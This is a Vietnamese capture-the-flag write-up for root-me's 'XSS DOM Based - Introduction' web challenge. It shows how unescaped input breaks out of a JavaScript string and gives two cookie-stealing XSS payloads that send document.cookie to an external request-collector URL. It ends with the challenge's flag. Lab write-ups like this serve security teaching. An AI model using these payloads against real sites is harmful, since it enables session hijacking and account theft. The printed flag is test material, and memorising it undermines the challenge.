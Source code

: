 # Write up challenge XSS DOM Based - Introduction

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)<br>
</br>



Truy cập challenge ta thấy có một ô input cho nhập số

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br>

Tiến hành nhập thử thì nhận được thông báo sai

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<br>

Inspect ta thấy input được truyền y nguyên vào chuỗi number. Có thể đây là lỗ hổng! 

<img src="./img/3.png" alt="normal_acc_TRAbID"/> 

<br> 

Thử chèn câu lệnh alert bằng chèn dấu nháy đóng chuỗi và chèn tiếp câu lệnh theo sau 

<img src="./img/4.png" alt="normal_acc_TRAbID"/>

<br>

Thật vậy có lỗ hổng!

<img src="./img/5.png" alt="normal_acc_TRAbID"/>

<br>

Những gì cần làm sẽ là lợi dụng lỗ hổng này để chèn đoạn script đánh cắp cookie.

    ';document.write("<img src='https://requestinspector.com/inspect/01fzg5c75hkg0yw6dcfzrgvybd/'+document.cookie+"'>");//


<img src="./img/6.png" alt="normal_acc_TRAbID"/>

<br>

Tuy nhiên không thành công nhận được cookie, ta inspect tìm hiểu nguyên nhân thì thấy được là dấu `<` thẻ img đã được loại bỏ.

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

<br> 

Không sao ta sẽ chèn hình ảnh bằng cách createElement bằng đoạn script sau 
    
   ';const My_img = document.createElement("img");var url = 'https://requestinspector.com/inspect/01fzg5c75hkg0yw6dcfzrgvybd?=';var cookie = document.cookie;url = url + cookie;My_img.src=url;document.body.appendChild(My_img);//
   

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

<br>

Thành công chèn ảnh

<img src="./img/9.png" alt="normal_acc_TRAbID"/>

<br>

Nhận được request chứa cookie của user

<img src="./img/10.png" alt="normal_acc_TRAbID"/>

<br>

Tiến hành gửi url chứa ảnh lỗi cho admin

<img src="./img/11.png" alt="normal_acc_TRAbID"/>
<img src="./img/12.png" alt="normal_acc_TRAbID"/>

<br>

Có được flag:
<img src="./img/13.png" alt="normal_acc_TRAbID"/>

<br>


Submit thành công 

<img src="./img/14.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** rootme{XSS_D0M_BaSed_InTr0}


